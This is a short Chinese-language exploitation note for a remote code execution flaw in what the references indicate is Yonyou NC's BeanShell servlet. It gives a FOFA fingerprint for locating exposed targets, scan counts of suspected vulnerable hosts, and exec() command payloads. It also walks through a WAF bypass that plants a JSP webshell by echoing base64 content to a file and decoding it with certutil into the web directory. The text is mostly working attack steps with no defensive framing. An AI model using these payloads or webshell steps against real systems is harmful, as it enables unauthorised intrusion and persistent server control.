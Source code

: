 # 1、FOFA搜索关键字
```
icon_hash="1085941792"
```

# 2、检测结果
```
经检测，互联网上开放目标共6845个，疑似存在漏洞目标1475个，访问异常目标5370个
```

# 3、漏洞利用
```
exec("cmd /c whoami.exe")
exec("/bin/sh whoami")
```

# 4、WAF绕过
直接写入webshell会将双引号也写入
```
exec(cmd /c echo \">shell<\") >shell.jsp;
```
shell.jsp的内容为
```
">shell<"
```

可先将webshell内容进行base64编码
```
```
再使用echo写入编码后的webshell
```
exec("cmd /c echo(123>webapps/nc_web/1.txt)
```
最后使用certutil解码webshell
```
exec("cmd /c certutil -f -decode webapps/nc_web/1.txt webapps/nc_web/1.jsp")
```

# References
https://github.com/z1un/NC-BeanShell-RCE
https://jdr2021.github.io/2022/06/14/用友-NC-bsh-servlet-BshServlet-RCE-利用方法/